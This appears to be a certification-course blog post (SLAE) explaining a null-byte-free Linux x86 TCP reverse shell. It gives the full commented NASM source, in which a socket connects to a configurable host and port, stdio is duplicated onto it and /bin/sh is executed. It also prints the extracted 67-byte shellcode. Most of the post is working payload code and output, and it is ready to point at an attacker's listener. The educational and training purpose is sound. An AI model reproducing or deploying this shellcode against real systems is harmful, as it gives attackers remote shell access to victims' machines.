 # 2. TCP Reverse Shell (linux/x86)

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a TCP reverse shell shellcode for Linux on the x86 architecture. The goal is to avoid null bytes while making the payload as small as possible.

Additionally, it should be easy to change the listening host and port.

## Solution

The solution is based on the [linux/x86/shell_reverse_tcp](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/x86/shell_reverse_tcp.rb) payload from the Metasploit Framework and written in NASM.

The listening host and port are defined at the top of the NASM source (the IP address 127.1.1.1 is an alternative to 127.0.0.1 without null bytes):

```nasm
global _start

ip equ 0x101017f            ; ip = 127.1.1.1 (big endian)
port equ 0x5c11             ; port = 4444 (big endian)
```

An IPv4/TCP socket is created using the [socket](https://man7.org/linux/man-pages/man2/socket.2.html) socket system call. Socket system calls are invoked using the [socketcall](https://man7.org/linux/man-pages/man2/socketcall.2.html) system call:

```nasm
section .text

_start:
    ; int socketcall(int call, unsigned long *args): syscall 0x66
    ; int socket(int domain, int type, int protocol): socketcall 0x1
    ;   s = socket(AF_INET = 2, SOCK_STREAM = 1, IPPROTO_IP = 0)
    xor ebx, ebx            ; ebx = 0
    mul ebx                 ; eax = 0, edx = 0
    push ebx                ; push domain = IPPROTO_IP = 0
    inc ebx                 ; socketcall = 1
    push ebx                ; push type = SOCK_STREAM = 1
    push 0x2                ; push protocol = AF_INET = 2
    mov ecx, esp            ; set socketcall args
    mov al, 0x66            ; syscall = 102
    int 0x80                ; perform syscall
```

A connection is established on the socket to the listening host using the [connect](https://man7.org/linux/man-pages/man2/connect.2.html) socket system call:

```nasm
    ; struct sockaddr_in { sa_family_t sin_family; in_port_t sin_port; uint32_t s_addr }
    ;   addr_in = { (WORD) AF_INET = 2, (WORD) [PORT], INADDR_ANY = [IP] }
    ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen): socketcall 0x3
    ;   connect(s, &addr_in, sizeof(sockaddr) = 16)
    pop ebx                 ; socketcall = 2
    pop esi                 ; align stack so that ecx = &addr_in
    push ip                 ; push s_addr = IP
    push word port          ; push sin_port = PORT
    push bx                 ; push sin_family = AF_INET = 2
    push 0x10               ; push addrlen = sizeof(sockaddr_in) = 16
    push ecx                ; push addr = &addr_in
    push eax                ; push sockfd = s
    inc ebx                 ; socketcall = 3
    mov ecx, esp            ; set socketcall args
    lea eax, [edx + 0x66]   ; syscall = 102
    int 0x80                ; perform syscall
```

Stdin, stdout, and stderr are redirected to the using the [dup2](https://man7.org/linux/man-pages/man2/dup.2.html) system call:

```nasm
    ; int dup2(int oldfd, int newfd): syscall 0x3f
    ;   dup2(s, 0..2)
    mov ecx, ebx            ; newfd = 3
    pop ebx                 ; oldfd = s
dup_loop:
    dec ecx                 ; decrement newfd
    mov al, 0x3f            ; syscall = 63 (eax = 0 from successful connect return first iteration and dup2 returns stderr = 2 / stdout = 1)
    int 0x80                ; perform syscall
    jnz dup_loop            ; loop until newfd = 0
```

Finally, a shell is spawned using the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) system call. Note that the *argv* and *envp* arguments can be set to NULL when they are not used by the executed program:

```nasm
    ; int execve(const char *pathname, char *const argv[], char *const envp[]): syscall 0xb
    ;   execve("//bin/sh", 0, 0)
    push edx                ; push null byte
    push 0x68732f6e         ; push "n/sh" reversed
    push 0x69622f2f         ; push "//bi" reversed
    mov ebx, esp            ; pathname = "//bin/sh" (argv and envp already set)
    mov al, 0xb             ; syscall = 11 (eax = 0 from dup2 returning stdin)
    int 0x80                ; perform syscall
```

The complete source code can be found here: [shell_reverse.nasm](https://github.com/SpacePlant/slae32/blob/main/shell_reverse.nasm)

## Results

The assembled shellcode is 67 bytes and contains no null bytes. The MSF version is 68 bytes and contains a null byte.

```sh
$ shellcode=$(for i in $(objdump -d shell_reverse | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x66\x53\x6a\x10\x51\x50\x43\x89\xe1\x8d\x42\x66\xcd\x80\x89\xd9\x5b\x49\xb0\x3f\xcd\x80\x75\xf9\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80
$ echo $shellcode | tr -cd 'x' | wc -c
67
```

The shellcode is executed successfully using the C template:

![Reverse shell executed](images/shell_reverse.png)

![Reverse shell established](images/shell_reverse_2.png)
